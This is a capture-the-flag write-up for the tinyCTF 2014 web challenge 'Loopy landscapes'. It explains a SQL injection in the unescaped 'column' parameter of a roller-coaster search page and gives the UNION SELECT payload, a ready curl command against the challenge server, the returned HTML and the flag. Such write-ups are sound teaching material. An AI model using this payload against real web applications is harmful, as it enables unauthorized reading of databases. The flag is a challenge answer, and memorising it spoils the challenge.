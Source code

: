 # tinyCTF 2014: What is Loopy landscapes?

**Category:** Web
**Points:** 200
**Description:**

> <http://54.69.118.120:8000/>

## Write-up

The `column` field on the website is vulnerable to SQL injection. It seems like the query being executed has the format:

```sql
SELECT name, park, country, height FROM rollercoaster WHERE $column LIKE %$value%;
```

…where `$column` is not escaped properly, but `$value` is.

After some manual fiddling, the final payload looks like this: `park = 0 AND 1=0 UNION ALL SELECT 1,hash,3,4 from flag#`.

```bash
$ curl --data "value=x&column=park%20%3D%200%20AND%201%3D0%20UNION%20ALL%20SELECT%201%2Chash%2C3%2C4%20from%20flag%23" 'http://54.69.118.120:8000/index.php'
<html>
    <head>
        <title>Archie's Roller Coaster Page</title>
        <link href='http://fonts.googleapis.com/css?family=EB+Garamond' rel='stylesheet' type='text/css'>
        <link rel="stylesheet" type="text/css" href="style.css"/>
    </head>
    <body>
        <div id="header">Archie's Coasters</div>
        <div id="search" class="whitebox">
            <form name="search" action="index.php" method="post">
                Search for
                <input name="value" type="text" placeholder="Search value"/>
                in
                <select name="column">
                    <option value="name">name</option>
                    <option value="park">park</option>
                    <option value="country">country</option>
                </select>
                <input type="submit" value="Go"/>
            </form>
        </div>
        <div id="content" class="whitebox">
            <table>
                <tr>
                    <th>
                        Name
                    </th>
                    <th>
                        Park
                    </th>
                    <th>
                        Country
                    </th>
                    <th>
                        Height
                    </th>

                </tr><tr><td>1</td><td>flag{unroll_those_loops}</td><td>3</td><td>4 m</td></tr></table>
        </div>
    </body>
</html>
```

The flag is `flag{unroll_those_loops}`.

## Other write-ups and resources

* <https://github.com/jesstess/tinyctf/blob/master/loopy/loopy.md>
* <http://barrebas.github.io/blog/2014/10/03/tinyctf/>
